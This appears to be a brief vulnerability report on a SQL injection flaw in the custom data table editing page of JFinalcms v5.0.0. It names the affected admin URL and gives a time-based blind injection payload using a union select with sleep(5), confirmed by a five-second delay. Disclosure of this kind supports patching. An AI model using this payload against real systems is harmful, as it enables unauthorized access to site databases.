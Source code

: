 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0


SQL injection exists for custom data tables,url is  /admin/div_data/edit?id=5&divId=7


The function is located in, Extended Content - Custom Data

![1](https://github.com/BengGouyu/cms/assets/163631658/1d122044-fa36-4bfc-b2ba-47b40dacd0c1)



poc：

```
cms_admin union select 1,1,1,1,1,sleep(5) #
```

![2](https://github.com/BengGouyu/cms/assets/163631658/f4485e67-c771-442d-8ac9-e508a02d31a4)



Then obtain the corresponding data packet

![3](https://github.com/BengGouyu/cms/assets/163631658/70af3d21-58e0-4eb7-9ef7-9556aef38662)



5 second delay with injection present

![4](https://github.com/BengGouyu/cms/assets/163631658/99f5f91b-ab75-41e5-8c21-46f43e50579e)
